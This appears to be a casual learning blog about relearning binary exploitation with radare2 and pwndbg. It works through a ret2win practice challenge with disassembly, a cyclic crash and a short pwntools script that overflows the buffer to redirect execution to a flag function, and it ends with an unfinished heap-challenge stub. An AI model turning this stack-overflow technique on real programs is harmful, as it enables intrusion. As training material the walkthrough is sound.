

# do you want to stop existing? prolly do

## introduction

why do i do this?

one day i just realized how bad i depended on AI, how bad i am at doing what i thought i loved, and how big of a gap that exist within my knowledge.

to do any exploitation, you need to know very well how the system works. so far ive learnt so little, just enough to do some basic free points challenges that the ctf organizers give out so ppl dont feel too bad about themselves, and i know so little that i cant do anything more than that, or, know why my exploit works.

i also find myself jumping from tools to other tools, cause i need one single command from one exact tool. instead of learning how to use one tool properly and stick to it. part of it is because im dumb, and, because i learnt basic pwn from a guy who uses `gef`, learnt heap from a guy who uses `pwndbg`, learnt some weird ass technique from a guy uses `radare2`. my mind is wired like spaghetti, and like how much i miss my ex - which is a lot, but not very systematically. and i kinda dont want to continue living in chaos.

so lets dive into how i kms daily

## relearn debugging and reverse engineering basics

### `Radare2`

theres 2 kinds of ppl.

ones that give up `radare` halfway, dead or alive

and liars.

this is a tool that are absolutely ass to start learning on cause of its fucking steep learning curve. but i have a kink and some trauma bond (just like i do with my ex) so ofc id pick the one which cause me the most pain.

to get started with, let's go through some basic functionality and learn to navigate with the tools.

#### basic maneuver

cause i suck at pwning so im gonna take the easiest problem i can find, cred to `ir0nstone` for the problem and for having taught me how i can hate my life even more.

here lets try to do all the reversing myself to see how much i actually suck at pwning. will try to just use `radare2`, `pwndbg` for when im stuck and maybe some `ida` if i got really stuck.

do you hate your life as much as i hate mine? prolly not. here im gonna show you why.

for this part, all the files will be put inside `/ir0nstone-ret2win`

##### basic basic shits

start the thing with `V`, it will do something which i have no idea, but thats how we get started, and i prolly will dig up what `V` does later (i didnt).

once you start seeing fancy graphic, you can show off that you know how to use the tool by repeatingly pressing `p`. this will cycle through all the screen that `radare` has to offer. you prolly have no idea what they are for, nor how to use them, but it looks cool. once you find yourself done with them, you can do `P` (capital) so it cycle back, or you can just continue `p`-ing (pee-ing) (you see what i did eh? funny right? my ex thinks im dry and not a humourous guy) and once you have go through everything, you will find yourself in the first screen again. or not.

to start typing in commands, you hit `:`. i forgor to pressed `shift` (which will give you `;`) so the shit just throws me into `vim`. and dear god i panicked. (note to self: `:aq!` will make the pain go away, it doesnt bring back ur ex tho).

once you see the bottom of the terminal shows a `>`, that means the thing is now your slave and is ready to take any of your commands. sometime if i find myself home alone, i sit under my table and cry over my ex.

ill try to do what i usually do first in pwndbg, which is `info functions`. which you can do by `afl`.

once you find yourself sitting there like a dumbass cause the command returned nothing, you will know that in order for thing to works, you will have to scream (just like in real life). do that by `aaa` so `radare` got scared and start doing all the analysis, then you can do `afl` again, and this time you can see `radare` shows you that he dont have attachment issues like you do.

now you can go up and down, press `enter` to jump to the function that are being called to in that specific opcode. once you regret your decision, press `u` to return to your original jump point.

##### conclusion

its a very cool tool with lots of functionality, which can help a normal person excels if they know what theyre doing.

well i absolutely fucking hated it. im going to go back to `pwndbg`. for now.

##### after 5 mins of thinking about why she left me

i remember that i dont have to do lots of reverse engineering, cause i have the fucking source code (thanks again to ir0nstone), so i didnt try to read it, lets continue doing this.

i tried to copy the text from the terminal running `radare2`, but the guy is shy so i have to take pictures of him instead. heres what it looks like (too bad my dear matrix multiplication fren cant see this)



heres the absolutely reason why `pwndbg` is superior, which i didnt choose to use cause i hate my life

```
pwndbg> disass main
Dump of assembler code for function main:
   0x080491ab <+0>:     push   ebp
   0x080491ac <+1>:     mov    ebp,esp
   0x080491ae <+3>:     and    esp,0xfffffff0
=> 0x080491b1 <+6>:     call   0x80491ee <__x86.get_pc_thunk.ax>
   0x080491b6 <+11>:    add    eax,0x2e4a
   0x080491bb <+16>:    call   0x8049172 <unsafe>
   0x080491c0 <+21>:    nop
   0x080491c1 <+22>:    leave
   0x080491c2 <+23>:    ret
End of assembler dump.
pwndbg> disass unsafe
Dump of assembler code for function unsafe:
   0x08049172 <+0>:     push   ebp
   0x08049173 <+1>:     mov    ebp,esp
   0x08049175 <+3>:     push   ebx
   0x08049176 <+4>:     sub    esp,0x34
   0x08049179 <+7>:     call   0x80490b0 <__x86.get_pc_thunk.bx>
   0x0804917e <+12>:    add    ebx,0x2e82
   0x08049184 <+18>:    sub    esp,0xc
   0x08049187 <+21>:    lea    eax,[ebx-0x1ff8]
   0x0804918d <+27>:    push   eax
   0x0804918e <+28>:    call   0x8049040 <puts@plt>
   0x08049193 <+33>:    add    esp,0x10
   0x08049196 <+36>:    sub    esp,0xc
   0x08049199 <+39>:    lea    eax,[ebp-0x30]
   0x0804919c <+42>:    push   eax
   0x0804919d <+43>:    call   0x8049030 <gets@plt>
   0x080491a2 <+48>:    add    esp,0x10
   0x080491a5 <+51>:    nop
   0x080491a6 <+52>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080491a9 <+55>:    leave
   0x080491aa <+56>:    ret
End of assembler dump.
pwndbg> disass flag
Dump of assembler code for function flag:
   0x080491c3 <+0>:     push   ebp
   0x080491c4 <+1>:     mov    ebp,esp
   0x080491c6 <+3>:     push   ebx
   0x080491c7 <+4>:     sub    esp,0x4
   0x080491ca <+7>:     call   0x80491ee <__x86.get_pc_thunk.ax>
   0x080491cf <+12>:    add    eax,0x2e31
   0x080491d4 <+17>:    sub    esp,0xc
   0x080491d7 <+20>:    lea    edx,[eax-0x1fec]
   0x080491dd <+26>:    push   edx
   0x080491de <+27>:    mov    ebx,eax
   0x080491e0 <+29>:    call   0x8049040 <puts@plt>
   0x080491e5 <+34>:    add    esp,0x10
   0x080491e8 <+37>:    nop
   0x080491e9 <+38>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080491ec <+41>:    leave
   0x080491ed <+42>:    ret
End of assembler dump.
pwndbg> 
```

once we're done processing the horrible color choice (which i think i will find a way to rice this later once im comfortable with the tool, or ill just spend a week on ricing and refuse to learn the tool), we can try to process what is happening here.

the `main()` do some shenanigans, then call `unsafe()`.

`unsafe()` then do some extra shenanigans, then call a `imp.puts`. usually in `pwndbg` we have some shits like `puts@plt` or `puts@got` which tells us that the address is being resolves magically from somewhere else, here we have `imp`, which i have absolutely no idea what it is. and i prolly wont.

after that, it calls `imp.gets`. classic pwn where u see a `gets()`, you do spray and pray, so lets learn how to do debugging in this cursed environment, then launch a 500 characters `cyclic` into the program to see how it moans.

before we continue, i was once again reminded how bad i am in pwning. i forgor to check what is the file that we have been given, so lets quickly do that.

```
➜  ret2win file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=7acfbaeeb02ed45bfb3cb7441495e992aed83ddf, for GNU/Linux 3.2.0, not stripped
➜  ret2win checksec --file=vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   68 Symbols        No    0               1               vuln
➜  ret2win
```

yep, raw, no protection. just like how we used to did thing when me and my ex are still together.

no canary, so lets just do a stack spray to see if we can hit `rip`

to do that, we have to learn how to do dynamic anal in `radare`

ive looked around for a bit, and i find you can set breakpoints by doing `db flag`. `flag` can be either an address or a function names. `db` to show the lists of all breakpoints, and `dc` to run the program

```
[0xf5a9c9e0]> dc
Overflow me
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaae
[+] SIGNAL 11 (aka SIGSEGV) errno=0 addr=0x6161616e code=1 si_pid=1633771886 ret=0
[0x6161616e]> 

```

it crashed. im still with `pwndbg` at this point so lets see the offset using `cyclic -l` from `pwndbg`

```
pwndbg> cyclic -l aaan
Finding cyclic pattern of 4 bytes: b'aaan' (hex: 0x6161616e)
Found at offset 49
```

the thing is found at 49. this is a 32bit program, so lets do an align by adding to round up to the nearest value (4 byte chunk), which is 52

so, lets try writing a python script and see if this is possible to exploit. the `flag()` address is at `0x080491c3`

lets do this quickly by:

from pwn import *        # This is how we import pwntools

p = process('./vuln')    # We're starting a new process

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

p.clean()                # Receive all the text

p.sendline(payload)

log.info(p.clean())      # Output the "Exploited!" string to know we succeeded

```python
from pwn import *

p = process('./vuln')

payload = 'a' * 52
payload += '\xc3\x91\x04\x08'

p.clean()
p.sendline(payload)

log.info(p.clean())

```

which gives us:

```
➜  ret2win python3 test.py
[+] Starting local process './vuln': pid 37448
/mnt/share/relearn-pwn/ir0nstone-ret2win/ret2win/test.py:10: BytesWarning: Text is not bytes; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(payload)
/usr/lib/python3/dist-packages/pwnlib/log.py:396: BytesWarning: Bytes is not text; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  self._log(logging.INFO, message, args, kwargs, 'info')
[*] Exploited!!!!!
[*] Stopped process './vuln' (pid 37448)

```

now that we've done cheating, lets see how we can attach a `radare` session into a running process, and see for ourselves how much `radare` can make a person hate themselves even more.

we've cheated using `pwndbg` functions `cyclic`, `cyclic -l`, and inspecting the `rip`, now lets try to do everything again in `radare`

##### finding `cyclic`

with some more digging, i found out the equivalent of `cyclic` in `radare2` is `ragg2`.

to make life easier, just throw in `-P` for length, and `-r` to make the things in ascii instead of bytes pairs. we can do bytes pairs, but if i want to atleast read the crashlog by myself, lets put it in ascii so i can spot the easy `0x41`

#### self reflection

after ive spent hours, to then realized i just learn the basic stuff. so lets speed things up and not over explain myself on very basic operations.

lets just try to document important things, not over explain or over journaled, and show ppl how much i miss my ex

### debugging with `pwndbg` and `radare2`

#### fix some stupid shi

if you ever find yourself stuck with `dc`

throw in some `ood` so that `radare2` thinks you're not retarded (even tho you're a bastard)

another thing to keep in mind is that this is given that you enter `radare` without any prior flag. most of the writeup we read starts `radare` with `r2 -d -A [target]`. which will throw `r2` into debugging mode. that will help but we will have to deal with some extra shenanigans that we're not smart enough to handle, for now. so do keep in mind to just startup `r2` normally, and we will learn how to utilize `-d -A` later on.

#### setting breakpoints

IMPORTANT NOTE TO SELF: THIS IS A CURSED TOOL AND NO ONE REALLY WANT TO USE THIS

anyways,

after messing around the tool a bit more (which is just basically entering and quiting visual mode, switching between views, and do absolutely nothing that contributes to my understanding of the tool, straightup just larping), i understand nothing more of the tool compare to when i started learning it.

and that i miss my ex.

now, to enter debugging mode, we have to kinda understand how modes are being implemented in this very tool.

when we pull this tool out from our belt using its pure name (e.g. `r2 ./vuln`), the thing just straight up an analysing tool. which gives you all the functionality needed to do reverse engineering (the program isnt running). to tell it to jump into debugging mode, put a `-d` for debugging flag when we call the tool. we can also add an extra `-A` for analyze automatically.

once we have jumped into the tool, lets just start the process, run `dcu`, which tells the program to `continue execution until main`.

##### how to debug 101

the fundamental debugger loop looks roughly like so:

hit breakpoint -> `dc` (program runs) -> hit breakpoint again

- `dc` - debugging / continue

=> inspect the state. using:

- `dr` - read cpu reg - debugging regs
- `px` - print hex - print hex
- `pd` - print disassembly

and then repeat

this prompts us to have a very good reading of assembly, since we dont actually have the disassembled code (or pseudo code) for us to read, tho i believe we can have extenstions installed for that exact job, lets just focus on the tool for now.

just for fun lets look at this cursed command explaination of radare

```
 .- ignore special characters, same as full command quotes "?e hi > ho"
 |    .- interpret the output of the command or run a script `.?`
 |   /   .-- the repeat prefix operator, run a command N times   .------------.
 |  |   /     . the command to run                               | , = csv    |
 |  |  |    /    . command suffix output modifier --------------<  j = json   |
 |  |  |   |    /                                                | * = r2cmds |
 |  |  |   |   |                                                 `------------'
['][.][N][cmd[,?*j]][~filter][@[@[@]]addr!size][|>pipe] ; another command
                           |  | | |  \________/ | |     |
                           |  | | |      |      |  \    `--- cmd separator
 output filter modifier _.'  /  | |      |       \  `-- redirect to file
   @ temporal seek  --------'  /  |       \       `--- pipe to system shell
       @@ foreach operator ---'   |        `--- foreach modifiers @? @@? @@@?
                                   `--- advanced foreach (addr+size on items)
```

do i understand anything from this? do i want to move on from my ex? u would get the same answer.

##### process and instructions

says `afl` gives us

```
0x08049180  sym.main
0x080491b6  sym.unsafe
```

`db sym.unsafe` would gives us a breakpoint at `unsafe()`.

then we can just call `dc` for the program to run until it hits a breakpoint.

pretty much the same to gdb

```
break unsafe
continue
```

to continue the program line by line, we use `ds`
important note is that, `ds` executes exactly one instruction.
unlike `ni` in `pwndbg`, which would steps over `calls` instruction.

for stepping over `calls` function like `ni` does, we uses `dso`

##### memory and registers

###### registers

this is very simple. `dr` will tell u the state of all cpu register atm.

for example, we can ask `dr eip` to tell us what is the value it holds

###### memory

`px` is a print hex command. we can use this to read memory values.

for example, we can do

```
px 80 @ esp
```

which will prints 80 bytes of memory starting from esp

and is equivalent to `pwndbg`

```
x/80bx $esp
```

we can also do the same for abitrary addresses

```
px 100 @ 0xffffd000
```

###### memory mapping

`dm` - debugging mapping - which will do the same thing as `pwndbg` - `vmmap`

###### backtrace

## you will need to learn to write c code properly

```c

#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <inttypes.h>

#define CHUNK_COUNT 6
#define CHUNK_SIZE 0x80
#define FLAG_FILE "flag.txt"
#define FLAG_OFFSET (sizeof(void *))


int main() {

   setvbuf(stdout, NULL, _IONBF, 0);
   setvbuf(stderr, NULL, _IONBF, 0);

   void *chunks[CHUNK_COUNT];
   char flag_buf[256] = {0};

   FILE *f = fopen(FLAG_FILE, "r");
   if (!f ) {
      fprintf(stderr, "Could not open %s\n", FLAG_FILE);
      return 1;
   }

   if (!fgets(flag_buf, sizeof(flag_buf), f)) {
      fclose(f);
      fprintf(stderr, "Could not read flag from %s\n", FLAG_FILE);
      return 1;
   }

   fclose(f);


   size_t flen = strlen(flag_buf);
   if (flen && flag_buf[flen - 1] == '\n') {
      flag_buf[flen-1] = '\0';
      flen--;
   }

   if (FLAG_OFFSET + flen >= CHUNK_SIZE) {
      fprintf(stderr, "Flag too large for chunk. Increase CHUNK_SIZE or reduce flag length.\n");

      return 1;
   }

   


}


```
